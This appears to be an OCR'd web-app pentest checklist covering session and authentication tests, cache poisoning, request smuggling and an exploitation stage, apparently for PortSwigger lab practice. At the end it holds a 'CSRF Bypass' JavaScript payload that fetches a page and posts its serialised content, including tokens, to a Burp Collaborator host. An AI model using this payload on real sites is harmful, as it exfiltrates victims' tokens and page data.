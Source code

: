 4 - Session Management and Auth
	4.1 - Determine exact cookies required (Paramalyzer)
  		4.1.1 - [ ][ ] Autorize - Access Control (IDOR, Sensitive Data Exposure)
    	4.1.2 - [ ][ ] Unauthenticated User Access(direct page access?, authentication parameter, fuzz login form)
    	4.1.3 - Session/User Management Testing
    		4.1.3.1 - Password Policy
            	4.1.3.1.1 - [ ][ ] sufficient?
            	4.1.3.1.2 - [ ][ ] enforced?
        	4.1.3.2 - Password Change / Reset Functionality
	            4.1.3.2.1 - [ ][ ] Rate Limit?
	            4.1.3.2.2 - [ ][ ] Session Reset?
	            4.1.3.2.3 - [ ][ ] Reset Email one-time-use?
	            4.1.3.2.4 - [ ][ ] Is an email/text sent to the original contact if Password or mfa factor is changed?
	            4.1.3.2.5 - [ ][ ] Is MFA required before password/mfs/security question change?
	            4.1.3.2.6 - [ ][ ] Security Question / Answer
        	4.1.3.3 - [ ][ ] Lockout Mechanism
        	4.1.3.4 - [ ][ ] Assess session token(s) (sufficiently random? new, unique tokens on login?)
        	4.1.3.5 - [ ][ ] sensitive data in token?
        	4.1.3.6 - [ ][ ] absolute / inactivity timeouts
        	4.1.3.7 - [ ][ ] Session destroyed on logout?
        	4.1.3.8 - [ ][ ] password reset kills all other sessions?
        	4.1.3.9 - [ ][ ] Are all standard account security features available? (Log out, password change, etc)
        	4.1.3.10 - Forgot username/password workflow.
            	4.1.3.10.1 - [ ][ ] Follows best practices?
	            4.1.3.10.2 - [ ][ ] Secure email token generation?
	            4.1.3.10.3 - [ ][ ] do password reset links/tokens expire immediately after being used?
	            4.1.3.10.4 - [ ][ ] do unused tokens expire?
	            4.1.3.10.5 - [ ][ ] null char shenanigans
5 - Infrastructure/Configuration Management Testing
	5.1 - Cache Poisoning
		5.1.1 - [ ][ ] https://portswigger.net/web-security/web-cache-poisoning
		5.1.2 - [ ][ ] https://portswigger.net/research/practical-web-cache-poisoning
		5.1.3 - [ ][ ] https://portswigger.net/research/web-cache-entanglement
	5.2 - HTTP Request Smuggling
		5.2.1 - [ ][ ] https://portswigger.net/web-security/request-smuggling
		5.2.2 - [ ][ ] https://portswigger.net/research/request-smuggling
6 - Exploiting
	6.1 - [ ][ ] SQLi
	6.2 - [ ][ ] XSS
	6.3 - [ ][ ] CSRF
7 - Reporting

#### CSRF Bypass
fetch('https://ace81fc71e48dbc1c0150fbd007f0049.web-security-academy.net/chat', { 
        method: 'GET', mode: 'no-cors'  
    })  
    .then(response => { response.text().then(data => { 
            var token = new DOMParser().parseFromString(data, 'text/html'); 
            fetch('https://z11gykx50ey9lpw978d9vs1rbihd52.burpcollaborator.net', 
                { 
                    method: 'POST', 
                    mode: 'no-cors', 
                    body: "test=" + btoa(new XMLSerializer().serializeToString(token)) 
                }) 
        })  
    })
